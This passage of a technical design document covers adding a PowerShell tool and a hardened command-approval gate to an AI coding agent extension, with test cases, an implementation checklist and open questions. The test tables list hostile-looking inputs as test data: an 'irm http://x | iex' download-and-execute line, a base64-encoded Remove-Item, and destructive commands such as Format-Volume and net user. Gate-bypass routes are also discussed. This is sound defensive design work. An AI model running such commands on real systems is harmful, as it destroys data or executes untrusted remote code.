| 7 | Update `StreamProtocolAdapter.ts` | `classifyTool("powershell")` → `shell` | Revert file |
| 8 | Update `pi-agent-session-host.ts` | Session loadout includes `powershell` | Revert file |
| 9 | Run `vitest run` | All tests pass | Fix failing tests |
| 10 | Package VSIX | `npm run package:prod` succeeds | Fix build errors |
| 11 | Install & UAT | Full project review completes | Revert to 0.80.10 |

---

## 11. E2E Test Architecture

### 11.1 Framework & Language

- **Framework**: vitest (unit + integration)
- **Language**: TypeScript
- **Test location**: `extension/src/pi-workflow/__tests__/`

### 11.2 Test Structure

| Test File | Scope | Change |
|-----------|-------|--------|
| `pi-coding-tools.test.ts` | Unit — `createWorkspaceTools` | **MODIFY** — Add powershell tests |
| `pi-workflow-gate.test.ts` | Unit — `classifyToolCall` | **MODIFY** — Add powershell classification + bash regression (mode-scoped) |
| `turn-budget-guard.test.ts` | Unit — `buildFailureSteerCorrection` | **MODIFY** — Add shell-aware tests |
| `pi-agent-session-host.test.ts` | Unit — session loadout | **MODIFY** — Add loadout tests |
| `resolve-git-bash.test.ts` | Unit — `resolveGitBashPath` | **DELETE** — Function removed |
| `pi-workflow-e2e.integration.test.ts` | Integration — full workflow | **VERIFY** — Update assertions |

### 11.3 Test Cases

| ID | Test Case | Input | Expected Output |
|----|-----------|-------|-----------------|
| TC-01 | `createWorkspaceTools` on win32 | `process.platform === 'win32'` | Tool named `"powershell"` in array |
| TC-02 | `createWorkspaceTools` on non-win32 | `process.platform !== 'win32'` | Tool named `"bash"` in array |
| TC-03 | PowerShell tool creation failure | `createPowerShellTool` throws | Falls back to `createBashTool` |
| TC-04 | Safe-allowlist PS auto-approves | `requestApproval({toolName: "powershell", input: {command: "Get-ChildItem"}})` | `{approved: true}` — matches `READONLY_PS_PATTERNS` (both modes) |
| TC-05 | `DESTRUCTIVE_PS_PATTERNS` — destructive PS | `requestApproval({toolName: "powershell", input: {command: "Remove-Item -Recurse"}})` | `{approved: false}` — require-approval, even under Autopilot (BR-11) |
| TC-05a | **[SEC-02]** Unrecognized (non-safe, non-destructive) PS pends | `{toolName:"powershell", input:{command:"Set-TimeZone 'UTC'"}}` | `{approved: false}` — not in safe allowlist → pend (both modes) |
| TC-05b | **[SEC-02/TC-404-new]** Empty command pends | `{toolName:"powershell", input:{command:""}}` | `{approved: false}` — fail-secure deny-by-default (flips old TC-404) |
| TC-05c | **[SEC-03]** Encoded command pends | `{toolName:"powershell", input:{command:"powershell -EncodedCommand <b64 of Remove-Item>"}}` | `{approved: false}` — decoded match destructive OR `decoded===false` → pend |
| TC-05d | **[SEC-03]** iex / download-and-exec pends | `{toolName:"powershell", input:{command:"irm http://x | iex"}}` | `{approved: false}` — obfuscation/eval → pend |
| TC-05e | **[SEC-01]** Destructive category coverage matrix | one command per §7.3.2 category (del, Stop-Service, Set-ExecutionPolicy, reg delete, schtasks, net user, Format-Volume, `>` redirect, git reset --hard, …) | each `{approved: false}` — pend |
| TC-05f | **[SEC-04]** Ordering invariant | `Remove-Item` via any path | NEVER `{approved: true}` through a read-only path, regardless of step order |
| TC-05g | **[SEC-08]** Malformed/renamed input field pends | `{toolName:"powershell", input:{script:"Get-ChildItem"}}` (no `command`) | `{approved: false}` — zod fail → fail-secure pend |
| TC-15 | Bash regression — supervised mode | `requestApproval({toolName: "bash", input: {command: "ls"}})` with Supervised (default) | `{approved: false}` — pends via `ToolApprovalGate` (UNCHANGED pre-upgrade, BRD §1.2) |
| TC-16 | Bash regression — autopilot mode | `requestApproval({toolName: "bash", input: {command: "ls"}})` with Autopilot | `{approved: true}` — auto-approve (non-destructive classification, UNCHANGED pre-upgrade) |
| TC-06 | `classifyTool("powershell")` | `"powershell"` | Returns `"shell"` |
| TC-07 | `buildFailureSteerCorrection` PowerShell | `toolName="powershell"` | Returns PowerShell-dialect guidance |
| TC-08 | `buildFailureSteerCorrection` bash | `toolName="bash"` | Returns bash-dialect guidance |
| TC-09 | Session loadout excludes bash on win32 | `getSessionToolLoadout()` on win32 | No tool with name `"bash"` |
| TC-10 | Session loadout excludes powershell on non-win32 | `getSessionToolLoadout()` on Linux | No tool with name `"powershell"` |
| TC-11 | Dependency version consistency | `npm ls @earendil-works/pi-agent-core` | Exactly one version 0.99.1 |
| TC-12 | TSC compilation | `npx tsc --noEmit -p extension/tsconfig.json` | 0 errors |
| TC-13 | No `as any` in type fixes | Code review | Zero `as any` occurrences |
| TC-14 | Git-Bash workaround removed on Windows | Code review | `resolveGitBashPath`/`normalizeBashCommandPaths` not called on win32 |

### 11.4 Test Helpers

```typescript
// extension/src/pi-workflow/__tests__/helpers/platform-mock.ts

/**
 * Mock process.platform for testing OS-aware behavior.
 * Usage: mockPlatform('win32') or mockPlatform('linux')
 */
export function mockPlatform(platform: string): () => void {
  const original = process.platform;
  Object.defineProperty(process, 'platform', { value: platform, configurable: true });
  return () => Object.defineProperty(process, 'platform', { value: original, configurable: true });
}

/**
 * Mock pi-coding-agent module for testing tool creation.
 */
export function mockPiCodingAgent(overrides: Partial<typeof import('@earendil-works/pi-coding-agent')>): () => void {
  // Implementation details...
}
```

---

## 12. Implementation Checklist

### Phase 1: Dependency Bump

| # | File | Action | Verification |
|---|------|--------|--------------|
| 1 | `extension/package.json` | Change `@earendil-works/pi-agent-core` to `0.99.1` | `npm ls` shows 0.99.1 |
| 2 | `extension/package.json` | Change `@earendil-works/pi-coding-agent` to `0.99.1` | `npm ls` shows 0.99.1 |
| 3 | `extension/package.json` | Add `@earendil-works/pi-ai`: `0.99.1` | `npm ls` shows 0.99.1 |
| 4 | `extension/package.json` | Add `@earendil-works/pi-tui`: `0.99.1` | `npm ls` shows 0.99.1 |
| 5 | `extension/package.json` | Add `@earendil-works/chord`: `0.99.1` | `npm ls` shows 0.99.1 |
| 6 | `extension/package.json` | Add `@earendil-works/pi-mcp`: `0.99.1` | `npm ls` shows 0.99.1 |
| 7 | `extension/package.json` | Add `@earendil-works/pi-codemode`: `0.99.1` | `npm ls` shows 0.99.1 |
| 8 | `extension/src/pi-workflow/pi-extensions.config.ts` | Update version to `0.99.1` | File compiles |
| 9 | Run `npm install` | Install dependencies | No errors |
| 10 | Run `npm ls @earendil-works/pi-agent-core` | Verify single version | One version 0.99.1 |
| 10a | **[SEC-07 — BLOCKING gate before merge]** Run `npm audit --omit=dev` | Fail build on High/Critical advisories | 0 High/Critical |
| 10b | **[SEC-07]** `npm ci` lockfile integrity + exact-version pins (no `^`) for all `@earendil-works/*` | Lockfile matches; versions pinned | Pass |
| 10c | **[SEC-07]** Capability review of NEW transitive deps `chord`, `pi-mcp`, `pi-codemode` — confirm whether `pi-codemode` evals model-authored code (direct RCE surface needing its own gate) + no unexpected network egress / typosquat | Documented capability finding; `pi-codemode` reviewed | Reviewed & recorded |

### Phase 2: TypeScript Compilation Audit

| # | File | Action | Verification |
|---|------|--------|--------------|
| 11 | Run `npx tsc --noEmit -p extension/tsconfig.json` | Detect type errors | List of errors |
| 12 | Fix type errors in `pi-provider.ts` | Update Agent types | 0 errors |
| 13 | Fix type errors in `pi-event-mapper.ts` | Update event types | 0 errors |
| 14 | Fix type errors in `pi-agent-session-host.ts` | Update session types | 0 errors |
| 15 | Fix type errors in `pi-extension-runtime.ts` | Update extension types | 0 errors |

### Phase 3: PowerShell Tool Wiring

| # | File | Action | Verification |
|---|------|--------|--------------|
| 16 | `extension/src/pi-workflow/pi-coding-tools.ts` | Add `createPowerShellToolSafe()` function | Compiles |
| 17 | `extension/src/pi-workflow/pi-coding-tools.ts` | Update `createWorkspaceTools()` — OS-aware selection | Returns `powershell` on win32 |
| 18 | `extension/src/pi-workflow/pi-coding-tools.ts` | Update `buildWorkspaceSystemPrompt()` — OS-aware prompt | PowerShell dialect on win32 |
| 19 | `extension/src/pi-workflow/pi-coding-tools.ts` | Remove `resolveGitBashPath()` usage on win32 | No Git-Bash pin on Windows |
| 20 | `extension/src/pi-workflow/pi-coding-tools.ts` | Remove `normalizeBashCommandPaths()` usage on win32 | No spawnHook on Windows |
| 21 | `extension/src/pi-workflow/pi-coding-tools.ts` | Add PowerShell dialect note | Tool description updated |

### Phase 4: Workflow Gate & Classification

| # | File | Action | Verification |
|---|------|--------|--------------|
| 22 | `extension/src/pi-workflow/pi-workflow-gate.ts` | **[SEC-02]** Do NOT add `powershell` to `READ_ONLY_TOOLS` (NO `bash` either — BRD §1.2). powershell auto-approval is allowlist-driven in the branch (item 23b) | `READ_ONLY_TOOLS` = {read, grep, find, ls, get_workspace_info}; bash supervised pend unchanged (TC-15) |
| 23 | `extension/src/pi-workflow/pi-workflow-gate.ts` | Insert destructive-PS command-content check FIRST in decision order (reads `input.command`, normalized, mode-independent) | Destructive/unparseable PS require-approval in BOTH modes (TC-05) |
| 23a | `extension/src/pi-workflow/pi-workflow-gate.ts` | **[SEC-03]** Call `normalizePsCommand` (decode `-enc`, strip backtick/caret, collapse ws, lower-case) before matching; `decoded===false` → pend | Encoded/obfuscated commands pend (bypass matrix) |
| 23b | `extension/src/pi-workflow/pi-workflow-gate.ts` | **[SEC-02]** Step 1b: auto-approve ONLY on `READONLY_PS_PATTERNS` match; Step 1c deny-by-default (empty/unrecognized → pend); branch returns explicitly on all paths | Safe PS auto-approves; everything else pends (TC-04, TC-404-new) |
| 23c | `extension/src/pi-workflow/pi-workflow-gate.ts` | **[SEC-04]** Inline invariant comment: destructive PS must never reach read-only auto-approve regardless of step order | Invariant unit test green |
| 23d | `extension/src/pi-workflow/pi-workflow-gate.ts` | **[SEC-08]** zod-validate approval request `input` shape; missing/renamed `command` on a shell tool → fail-secure (pend) | Malformed-input test pends |
| 23e | `extension/src/pi-workflow/pi-workflow-gate.ts` | **[SEC-05]** Log mode + matched pattern/category (or `NO_SAFE_MATCH_PENDED`) + command hash+length on every powershell/bash decision | Decision logs carry audit fields |
| 23f | `extension/src/pi-workflow/shell-tool-factory.ts` | **[SEC-10]** On powershell→bash fallback, log `securityPosture: command-content-gate-disabled` (WARN, greppable) — literal kept for log-shape stability; the real degradation is allowlist-of-safe (PS) → denylist (`DESTRUCTIVE_BASH_PATTERNS`) since v1.3 | Fallback posture logged |
| 23g | `extension/src/pi-workflow/bash-approval-branch.ts` + `extension/src/chat/engine/bash-command-patterns.ts` | **[SEC-06 CLOSED]** Narrow bash command-content guard: `DESTRUCTIVE_BASH_PATTERNS` + `evaluateBashDestructiveGuard` evaluated BEFORE the remembered-pattern and Autopilot branches; non-destructive → returns `null` (legacy path preserved) | Destructive bash pends in BOTH modes (TC-606/TC-701); `docker ps` / `docker run --rm nginx` still auto-approve; TC-15/TC-16 unchanged |
| 24 | `extension/src/chat/engine/ToolApprovalClassifier.ts` | **[SEC-01/02/03]** Export expanded `DESTRUCTIVE_PS_PATTERNS` (full category catalog §7.3.2), `READONLY_PS_PATTERNS` (§7.3.3), and `normalizePsCommand` (§7.3.1); name-based sets UNCHANGED (no bash/powershell entries) | Destructive PS gated (BR-11); safe allowlist present; `requiresApproval('bash')` still `false` |
| 25 | `extension/src/chat/engine/StreamProtocolAdapter.ts` | Update `classifyTool()` — add `powershell` → `shell` | UI renders correctly |
| 26 | `extension/src/pi-workflow/turn-budget-guard.ts` | Update `buildFailureSteerCorrection()` — shell-aware | PowerShell dialect on win32 |

### Phase 5: Session Tool Loadout

| # | File | Action | Verification |
|---|------|--------|--------------|
| 27 | `extension/src/pi-workflow/pi-agent-session-host.ts` | Add `getSessionToolLoadout()` function | Compiles |
| 28 | `extension/src/pi-workflow/pi-agent-session-host.ts` | Update allowlist — include `powershell` on win32 | Session has `powershell` |
| 29 | `extension/src/pi-workflow/pi-agent-session-host.ts` | Exclude `bash` on win32 | No dual shell tools |

### Phase 6: Tests

| # | File | Action | Verification |
|---|------|--------|--------------|
| 30 | `extension/src/pi-workflow/__tests__/pi-coding-tools.test.ts` | Add PowerShell tool tests | TC-01, TC-02, TC-03 |
| 31 | `extension/src/pi-workflow/__tests__/pi-workflow-gate.test.ts` | Add PowerShell classification tests | TC-04, TC-05 |
| 32 | `extension/src/pi-workflow/__tests__/turn-budget-guard.test.ts` | Add shell-aware correction tests | TC-07, TC-08 |
| 33 | `extension/src/pi-workflow/__tests__/pi-agent-session-host.test.ts` | Add loadout tests | TC-09, TC-10 |
| 34 | `extension/src/pi-workflow/__tests__/resolve-git-bash.test.ts` | Delete test file | File removed |
| 35 | `extension/src/pi-workflow/__tests__/helpers/platform-mock.ts` | Create test helper | Helper available |
| 36 | Run `npx vitest run` | All tests pass | 0 failures |

### Phase 7: Packaging & UAT

| # | File | Action | Verification |
|---|------|--------|--------------|
| 37 | `extension/package.json` | Bump version to `1.46.7` | Version updated |
| 38 | Run `npm run package:prod` | Package VSIX | VSIX created |
| 39 | Install VSIX | `kiro --install-extension <vsix> --force` | Extension installed |
| 40 | UAT | Full project review with PowerShell | Review completes |

---

## 13. Error Handling

### 13.1 Error Codes

| Code | Name | Description | Handling |
|------|------|-------------|----------|
| `PI_PWSH_UNAVAILABLE` | PowerShell tool creation failed | `createPowerShellTool` threw or undefined | Fallback to bash; log WARN |
| `PI_PWSH_NOT_FOUND` | pwsh.exe not found | PowerShell Core not installed | Auto-fallback to Windows PowerShell 5.1; log INFO |
| `PI_SESSION_TIMEOUT` | Session creation timeout | `ensureSessionHost` > 30s | Fallback to legacy PiWorkflowEngine |
| `PI_MODEL_UNRESOLVED` | Model not found | No model for provider | Fallback to legacy path |
| `PI_TSC_ERROR` | TypeScript compilation error | `tsc --noEmit` failed | Block deploy; report errors |
| `PI_DUPLICATE_DEP` | Duplicate dependency | `npm ls` shows multiple versions | Run `npm dedupe`; re-verify |

### 13.2 Exception Strategy

| Exception | Strategy | User Impact |
|-----------|----------|-------------|
| `createPowerShellTool` throws | Catch → fallback to bash → log WARN | Tool available as bash |
| `pwsh.exe` not found | Auto-fallback to Windows PowerShell 5.1 → log INFO | Transparent to user |
| `npm install` fails | Abort build → log ERROR → suggest retry | Build blocked |
| TSC compilation errors | Block deploy → report errors → fix per `.d.ts` | Build blocked |
| Duplicate `pi-agent-core` | Run `npm dedupe` → re-verify | Transparent to user |
| PowerShell command exit ≠ 0 | Return error result to agent loop | Agent decides retry or steer |
| `classifyTool` unknown tool | Default to `"shell"` → log WARN | UI renders as shell |

### 13.3 Logging Format

All log events follow the structured format:
```
[PiCodingTools] <message>
[PiWorkflowGate] <message>
[PiSessionHost] <message>
[TurnBudgetGuard] <message>
```

---

## 14. Diagram Index

| # | Diagram | File | Section | Description |
|---|---------|------|---------|-------------|
| 1 | Architecture Overview | `diagrams/architecture.drawio` / `.png` | §2.1 | High-level system architecture |
| 2 | Component Diagram | `diagrams/component.drawio` / `.png` | §2.2 | Component responsibilities and changes |
| 3 | Class Diagram | `diagrams/class-diagram.drawio` / `.png` | §5.4 | Key interfaces and relationships |
| 4 | Deployment Diagram | `diagrams/deployment.drawio` / `.png` | §2.3 | Deployment topology |
| 5 | Sequence Diagram | `diagrams/api-sequence-powershell.drawio` / `.png` | §6.1 | PowerShell tool creation flow |

---

## 15. Appendix

### 15.1 Glossary

| Term | Definition |
|------|------------|
| `pi-coding-agent` | Earendil Works coding agent SDK |
| `createPowerShellTool` | SDK factory (0.99.1+) creating native PowerShell tool |
| `createBashTool` | SDK factory creating Bash tool with `shellPath`/`spawnHook` options |
| Git-Bash workaround | Previous `shellPath` pin + `normalizeBashCommandPaths` spawnHook |
| `ToolApprovalGate` | Class controlling tool approval |
| `StreamProtocolAdapter` | Class adapting agent events for stream protocol |
| `ToolName` | Union type: `"read"\|"bash"\|"powershell"\|"edit"\|"write"\|"grep"\|"find"\|"ls"` (0.99.1) |
| pwsh | PowerShell Core (cross-platform); falls back to Windows PowerShell (5.1) |

### 15.2 Open Questions

| # | Question | Status | Answer |
|---|----------|--------|--------|
| 1 | Does 0.99.1 require Node ≥22? | **Resolved** | Root `package.json` already specifies `engines.node: 22.x` |
| 2 | Are `chord`, `pi-mcp`, `pi-codemode` compatible? **+ [SEC-07] capability review** — does `pi-codemode` eval model-authored code (RCE surface bypassing the shell gate)? Any network egress? | **Open — blocking DEV gate** | Verify during `npm install` + capability review (§12 items 10a–10c); if `pi-codemode` evals code, it needs its own approval gate before merge |
| 3 | Are `BeforeToolCallContext`, `AgentEvent` types backward compatible? | **Open** | Verify during TSC audit |
| 4 | Does `discoverAndLoadExtensions` signature change? | **Open** | Verify during TSC audit |
| 5 | Does `ToolDefinition` shape change? | **Open** | Verify during TSC audit |
| 6 | Does webview render `powershell` icon correctly? | **Open** | Verify during UAT |
| 7 | Rollback plan if 0.99.1 breaks? | **Resolved** | Git checkout + reinstall 0.80.10 |
| 8 | `commandPatternMatcher.matches()` receives tool name instead of command string (pi-workflow-gate.ts line 41) — pre-existing bug: "Allow all" patterns never match shell commands | **Open — out of scope** | Discovered by BA Review (pre-upgrade, not introduced by this TDD); tracked in `DISCREPANCY.md` OPEN-1; DEV to fix in a separate change. **Re-review when fixed (SEC-04):** a correctly-wired matcher populated with broad patterns (e.g. `*`) could become an over-approval path for shell tools — the fix must constrain pattern breadth for `powershell`/`bash` |
| 9 | **[SEC-02]** FSD TC-404 pins "empty command → auto-approve", incompatible with v1.2 fail-secure deny-by-default (empty → pend); FSD NFR §8 narrative still uses denylist framing | **Open — cross-document action for BA/QA (non-blocking)** | SA decision: empty command PENDS (§3.2 Step 1c, §8.4). BA to update FSD TC-404 → "empty command → pend" and align NFR §8 wording to the allowlist-of-safe mechanism; QA to update the test fixture. SA will NOT edit FSD (role boundary) |
| 10 | **[SEC-06]** Destructive `bash` under Autopilot auto-approves (`requiresApproval('bash') === false`); no command-content gate on bash | **Closed — implemented (SA4E-335 incident follow-up)** | Narrow command-content guard `evaluateBashDestructiveGuard` (extension/src/pi-workflow/bash-approval-branch.ts) matched against `DESTRUCTIVE_BASH_PATTERNS` (extension/src/chat/engine/bash-command-patterns.ts, re-exported from `ToolApprovalClassifier`). Destructive content pends mode-independently BEFORE the remembered-pattern/Autopilot branches; non-destructive bash returns `null` → unchanged legacy path (TC-15/TC-16 hold). Backend parity: GateGuardService `DEFAULT_PATTERNS` gained the docker subset. NOT converted to allowlist-of-safe (out of BRD §1.2 scope) — residual: bash commands outside the catalog still follow mode semantics |

---

*TDD v1.3 — SA Agent. v1.2: Security Design Review findings (Phase 3.7) folded in — see Revision History, SECURITY-REVIEW.md, and §3.2/§7.3/§8.4 (SEC-02 resolved via allowlist-of-safe posture; SEC-01/03 pattern catalog + normalization promoted to design requirements; SEC-04/05/07/08/10 recorded as DEV/QA requirements). v1.3: SEC-06 CLOSED by the SA4E-335 incident follow-up — narrow bash command-content guard (`DESTRUCTIVE_BASH_PATTERNS`) pends destructive commands mode-independently before the remembered-pattern/Autopilot branches (§3.2, §7.2, §12 item 10); non-destructive bash behavior unchanged. FSD TC-404/NFR §8 reword remains a cross-document follow-up for BA (non-blocking). Developer can implement from this document.*
